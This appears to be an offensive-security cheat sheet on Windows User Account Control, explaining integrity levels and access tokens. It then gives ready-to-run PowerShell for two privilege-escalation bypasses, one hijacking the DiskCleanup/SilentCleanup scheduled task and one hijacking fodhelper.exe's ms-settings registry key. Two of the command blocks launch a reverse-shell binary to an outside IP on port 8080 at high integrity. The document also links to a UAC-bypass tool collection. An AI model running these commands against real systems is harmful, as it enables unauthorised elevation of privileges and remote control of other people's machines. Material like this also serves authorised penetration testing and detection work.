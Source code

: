 ```yaml
---
description: Bypassing with DiskCleanup and FodHelper
---
```


# User Account Control

In `Windows`, every [securable object](https://learn.microsoft.com/en-us/windows/win32/secauthz/securable-objects) is assigned an [integrity level](https://learn.microsoft.com/en-us/windows/win32/secauthz/mandatory-integrity-control) so that access can be controlled.&#x20;

* `Low`, mainly used for internet interactions
* `Medium`, default level
* `High`, indicates elevated access
* `System`, highest possible level

Lower integrities cannot access higher integrity levels but it is allowed reversed direction.

{% hint style="info" %}
More UAC Bypasses:

[https://github.com/rootm0s/WinPwnage](https://github.com/rootm0s/WinPwnage)

[https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1548.002/T1548.002.md#atomic-test-5---bypass-uac-using-computerdefaults-powershell](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1548.002/T1548.002.md#atomic-test-5---bypass-uac-using-computerdefaults-powershell)
{% endhint %}

#### Access Token

An access is an object that describes security context and integrity level. When a user logs in that user gets access token with a medium integrity level. When an admin logs in, they get are high integrity level.

{% hint style="info" %}
User Account Control manages elevation between access tokens.&#x20;
{% endhint %}

When having a reverse shell as a user who is Administrator and having no GUI access the process is still running at a medium integrity level. Thus we would have to bypass `User Access Control`

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:yellow;">**Bypass 1: DiskCleanup Scheduled Task Hijack**</mark>

Using SilentCleaup scheduled task is start from a process with medium integrity level and automatically evelates to high integrity.

```powershell
Set-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Value "cmd.exe /K C:\Windows\Tasks\RShell.exe <IP> 8080 & REM " -Force
Start-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup" -TaskName "SilentCleanup"

# Cleanup
Clear-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Force
```

### <mark style="color:yellow;">**Bypass 2: FodHelper Execution Hijack**</mark>

`fodhelper.exe` has an attribute called `AutoElevate`, meaning when its run by a user at medium integrity level it is automatically elevated to a `high integrity level`.

When `FodHelper` is run, it attempts to read the value of the registry key `"HKCU\Software\Classes\ms-settings\Shell\Open\Command"`. Where `Shell\Open\Command` tells how to open files like GIF would be opened with iexplore.exe, we can change this to cmd.

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd" -Force

C:\Windows\System32\fodhelper.exe
```

Or get a revers shell

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\Windows\Tasks\RShell <IP> 8080" -Force

C:\Windows\System32\fodhelper.exe
```
